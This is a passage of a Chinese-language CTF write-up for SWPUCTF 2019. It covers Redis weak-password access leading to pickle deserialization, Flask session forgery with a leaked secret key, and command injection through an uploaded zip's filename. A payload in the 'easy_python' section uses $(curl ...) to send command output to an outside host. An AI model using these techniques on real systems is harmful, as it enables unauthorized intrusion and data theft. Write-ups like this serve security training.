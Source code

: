 爆破一下密码就是默认密码password

在里面可以看到一堆session字符串键值，用GET命令看下内容发现是序列化后的东西，那么就直接上反序列化的就可以了。注意是python2和linux

![](https://wulasite.top/mdimage/swpuctf2019/2.png)

然后在redis修改对应自己登陆的session里的值,然后再访问一次就可以触发反序列了

![](https://wulasite.top/mdimage/swpuctf2019/3.png)



![](https://wulasite.top/mdimage/swpuctf2019/4.png)

![](https://wulasite.top/mdimage/swpuctf2019/6.png)

## easy_python 

这题思路比较简单。登录上去查看session里的内容发现id=100,这种情况一般就是要改session，所以就去找secret_key，最后在404的返回头里找打了，所以说burp还是挺关键的。

SECRET_KEY:keyqqqwwweee!@#$%^&*用flask session cookie manager解密和重加密一下，修改id为1

![](https://wulasite.top/mdimage/swpuctf2019/7.png)

得到

.eJyrVspMUbKqVlJIUrJS8g20tVWq1VHKLI7PyU_PzFOyKikqTdVRKkgsLi7PLwIqVEpMyQWK6yiVFqcW5SXmpsKFagFiyxgX.XekyGw.wYomzVd7LK9ea7WN-mZaQ0gldjg

然后点击上传页面在注释里找到源码。

这题就是上传然后拼接unzip命令，其实从这里大家都会想命令执行，但是还有个更简单的办法就是软链接。不过zip命令打包软链接要加参数-y才可以保持软链接。这里比较基础及不展示了。接下来讲下大师傅的执行命令的思路。

大家都知道在命令行中有些特殊的表示方法会被解释成命令，比如

```bash
``
$()
or more
```

所以利用这些就可以执行命令，比如这个payload

```bash
$(curl xxx.xxx.xxx.xxx:9999?/`pwd`).zip
```

就可以带出pwd，所以在这种情况下我们就可以执行命令了。但是这如果文件名带/就会报错。所以我们得想办法造一个。

比如用awk，没探究过其它的，但是Linux肯定在编码上也有很多种方法，所以肯定不止这种方法。

```
awk 'BEGIN{printf "%c", 47}
```



## emo_mvc 
